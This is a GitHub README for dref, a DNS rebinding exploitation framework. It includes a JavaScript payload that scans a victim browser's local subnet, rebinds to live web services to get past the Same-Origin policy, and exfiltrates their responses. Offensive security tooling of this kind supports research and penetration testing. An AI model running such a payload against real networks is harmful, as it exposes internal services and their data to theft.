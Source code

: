 <dl>
  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/logo.png">
  </p>

  <!-- REPLACE SHIELDS -->
  <p align="center">
    <img src="https://travis-ci.com/mwrlabs/dref.svg?branch=master">
    <img src="https://codecov.io/gh/mwrlabs/dref/branch/master/graph/badge.svg">
    <a href="https://greenkeeper.io/">
      <img src="https://badges.greenkeeper.io/serain/netmap.js.svg">
    </a>
    <a href="https://gitter.im/dref/Lobby/">
      <img src="http://badges.gitter.im/serain/dref.svg">
    </a>
  </p>

  <p align="center">DNS Rebinding Exploitation Framework</p>

  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/diagram.png">
  </p>
</dl>

dref does the heavy-lifting for [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding). The following snippet from one of its [default payloads](https://github.com/mwrlabs/dref/wiki/Payloads#web-discover) shows the framework being used to scan a local subnet from a hooked browser; after identifying live web services it proceeds to exfiltrate GET responses, [breezing through the Same-Origin policy](https://github.com/mwrlabs/dref/wiki#limitations):

```javascript
// mainFrame() runs first
async function mainFrame () {
  // We use some tricks to derive the browser's local /24 subnet
  const localSubnet = await network.getLocalSubnet(24)

  // We use some more tricks to scan a couple of ports across the subnet
  netmap.tcpScan(localSubnet, [80, 8080]).then(results => {
    // We launch the rebind attack on live targets
    for (let h of results.hosts) {
      for (let p of h.ports) {
        if (p.open) session.createRebindFrame(h.host, p.port)
      }
    }
  })
}

// rebindFrame() will have target ip:port as origin
function rebindFrame () {
  // After this we'll have bypassed the Same-Origin policy
  session.triggerRebind().then(() => {
    // We can now read the response across origin...
    network.get(session.baseURL, (code, headers, body) => {
      // ... and exfiltrate it
      session.log({code: code, headers: headers, body: body})
    })
  })
}
```

<dl>
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/exfiltrated.png">
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/arrow-bottom-right.png">
</dl>

<br /><br /><br /><br /><br /><br /><br /><br /><br />
Head over to the [Wiki](https://github.com/mwrlabs/dref/wiki) to get started.
<br />
Check out [dref attacking headless browsers](https://labs.mwrinfosecurity.com/blog/from-http-referer-to-aws-security-credentials/).

<dl>
  <p align="center">
    <sub><i>This is a development release - <b>do not use in production</b></i></sub>
  </p>
</dl>
